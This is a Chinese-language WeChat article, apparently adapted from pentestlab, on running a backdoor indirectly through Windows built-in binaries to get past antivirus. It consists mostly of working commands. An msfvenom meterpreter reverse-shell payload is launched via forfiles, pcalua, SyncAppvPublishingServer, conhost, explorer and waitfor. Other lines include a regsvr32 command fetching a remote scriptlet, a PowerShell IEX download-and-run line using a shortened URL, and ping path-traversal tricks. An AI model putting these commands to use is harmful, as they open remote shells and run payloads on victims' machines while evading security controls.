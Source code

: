 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1gqzopwCrmsIyGRvZle7iA)

[![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcKMst8DIrjHAe2Ntwl8LP3l3ja18BQ8Ece5ru3qV9TEEYiavuJvgzAgu9sXB5QXgVk83E1MgcJbSA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247494477&idx=1&sn=455f152637b474c0895388fa7120f9ec&chksm=ec1ddb65db6a527347fb2ba24d96fea3aa01b493ec777ffecc94999dbc8d47e974aea7e09239&scene=21#wechat_redirect)

在服务器上存在防病毒等防御软件时，在直接执行恶意后门文件时，会被拦截，如何通过间接执行的方式绕过安全检测？本文介绍几种方法。  

### 准备工作

首先使用 Metasploit 的 `msfvenom` 生成一个可执行文件。用这个文件作为需要隐藏的后门文件，命令如下：

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.254.58 LPORT=4444 -f exe > pentestlab.exe

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHrg0FQ8CiaV4WISsDoBKAewhHHD0hZkgpBYWGedFQzMSm6estXf9fn7w/640?wx_fmt=png)

### 方法一 forfiles

`forfiles`是一个命令行工具，可以选择文件并执行一个命令来操作文件。通常用于批处理作业，但可能会被滥用执行任意命令或文件。

参数 `/p` 指定搜索文件的目录，`/m` 指定搜索关键词，`/c` 指定要执行的命令，整体命令如下：

> forfiles /p c:\windows\system32 /m calc.exe /c C:\tmp\pentestlab.exe

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHYnWiciaq6ruBjlxoAIE6MT9jH8wsJUoS5osVmc7j2CEUBfnobBmgIkjQ/640?wx_fmt=png)

命令执行完毕，会执行 `pentestlab.exe` ，在 Metasploit 得到会话：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHniaazRwEr5TCG5DrLHdoTkZ1jwQKTBTSMEibibiaiaL1SFm5BzZ2GEzpIyw/640?wx_fmt=png)

在系统上查看进程会发现，`pentestlab.exe` 进程是 `forfiles.exe` 的子进程：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIH3ibAwjHXMmlSvp29rlp5xP31gFcM6PNq3ZySh4RZAsBqffRefnpiaLyw/640?wx_fmt=png)

也可以在 Windows“运行” 中直接输入以上命令，不需要打开 cmd 窗口：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHcfYpYG7v62hSLoKU7bdpHXPp3zPsUKg5NIWN7KvfAj1k15OPuIUIWw/640?wx_fmt=png)

### pcalua

pcalua.exe 是 windows 的系统文件，Windows 程序兼容性助理 (Program Compatibility Assistant) 的一个组件而已。程序位于 `C:\Windows\System32` 目录下，可以使用 “-a” 参数执行命令：

> pcalua.exe -a C:\tmp\pentestlab.exe

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHjLAdlhe51lJpicS6I5tfDTHjEJotNNlNcam1a1ic9F9PWkGj34R8oYgA/640?wx_fmt=png)

命令执行成功，会得到一个 meterpreter 会话：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHWHNNDX3dwxarCg0Zff8RQJkibFv6YaL68W7ttspxq5vyHEZV7e5dMXw/640?wx_fmt=png)

新创建的进程显示是父进程：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHhOnQIAMfw9zW0syU41bBsXe7Pu3H6eY4ncaUUxynOFcibVo13ZbEYGw/640?wx_fmt=png)

### SyncAppvPublishingServer

SyncAppvPublishingServer 是 win10 自带的服务，有 vbs 和 exe 两个版本，是用来启动 Microsoft 应用程序虚拟化的发布刷新操作，可以在 powershell 的窗口下执行 powershell 命令：

> SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\pentestlab.exe"

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHqPH0kqv07o6sEA0PVopIH7WVPPibtqgibLeklrDJhEGFtHacicbiaQgiang/640?wx_fmt=png)

执行成功后，返回 meterpreter 会话：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIH1KgrmkcUcDyqXkxyhCX5Z83zGG6yRvaGviby8lZDouTLgetx7DzwLicw/640?wx_fmt=png)

使用 regsvr32 也可以从远程位置执行恶意 payload，因为 SyncAppvPublishingServer 可以执行双引号中包含的任何内容：

> SyncAppvPublishingServer.vbs "Break; regsvr32 /s /n /u /i:http://192.168.254.158:8080/jnQl1FJ.sct scrobj.dll"

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHJ6c7jVxXALUuA8aYwCPrV6dMLMoqDsRuQ4sYcyuJ5BMQec0ib3M2GqA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHdBJ1TS2PVVgUALR41icicHTCR86fRRKOVFIf5llKrcwTVxUUX9WtTvEw/640?wx_fmt=png)

### Cmd Hijack

可以使用路径遍历的方式来混淆监控系统并执行命令或有效载荷：

> cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/calc.exe"

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHx4mHaIiaMP3h6owj3P27qXRavaOBHnU9cRnzXBZARaibibuCSAuPQduhw/640?wx_fmt=png)

以下两条命令同样可以达到执行 calc 的效果：

> ping ;calc.exe 127.0.0.1/../../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/POWERSHELL.EXE

or 

> cmd.exe /c "ping ;calc.exe; 127.0.0.1/../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/POWERSHELL.EXE"

### conhost.exe

全称是 Console Host Process, 即命令行程序的宿主进程。简单的说他是微软出于安全考虑，在 windows 7 和 Windows server 2008 中引进的新的控制台应用程序处理机制，可以用下面的命令启动：

> conhost.exe C:\tmp\pentestlab.exe conhost "pentestlab.blog C:\tmp\pentestlab.exe" conhost pentestlab.blog/../../tmp/pentestlab.exe

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIH6icozZkMMibYeD5DR5H0ZicUiax5gken9GJKu32S2k2Jj1ndSfBhCDW5lg/640?wx_fmt=png)

### explorer.exe

explorer.exe 是 Windows 程序管理器或者文件资源管理器，利用它执行恶意软件，父进程是 `explore.exe` 而不是 `cmd.exe`

> explorer.exe C:\tmp\pentestlab.exe explorer.exe /root,"C:\tmp\pentestlab.exe" explorer.exe pentestlab.blog, "C:\tmp\pentestlab.exe"

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHiaviaLKibxduOlp5FUMWHwkdicj1u69DJRfDUiccRGuQNql38TfeRscrotg/640?wx_fmt=png)

上述所有命令都可以在 “运行” 中执行：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHjrKhrq8ZWyNKhB6AgGwPyUfAtCH86B5XXowqfIIlIZR1ZCr67FKyAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHzlqEgJEOV5AvuZghcicJ5DC8VswFHlL5XLZkbK3tCK7k2mVVN3oLNaA/640?wx_fmt=png)

### waitfor

waitfor 是微软的程序，用于在网络中通过信号同步计算机。也可以使用它来进行命令执行：

> waitfor pentestlab && PowerShell IEX (IWR http://bit.ly/L3g1t).Content waitfor /s 127.0.0.1 /si pentestlab

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcX3AJwiazZT9RibkOaFRkwIHiaxRYWVos1GWMGeE97f0ylye1q6vuvpAEuIhZczk6ap4ftVhGia4AAsQ/640?wx_fmt=png)

### 总结

防病毒软件通过软件黑白名单的方式限制命令执行，因为很多系统自带的软件和程序无法进行拦截，会对系统的正常使用造成很大的影响，必然会被加白，所以这些加白后的软件都有可能成为攻击者关注的对象，用来绕过防病毒软件的检测，对抗的过程是源源不断的，这里并不是最全的，仅作参考！

![](https://mmbiz.qpic.cn/mmbiz_gif/sGfPWsuKAfeYwjJqZiawVOoPhFXUqypbLIMib9dGbe001zcXZuSsaIBqulE92WQKq1YGOv7POdTUux9yNZe0e3dA/640?wx_fmt=gif)

公众号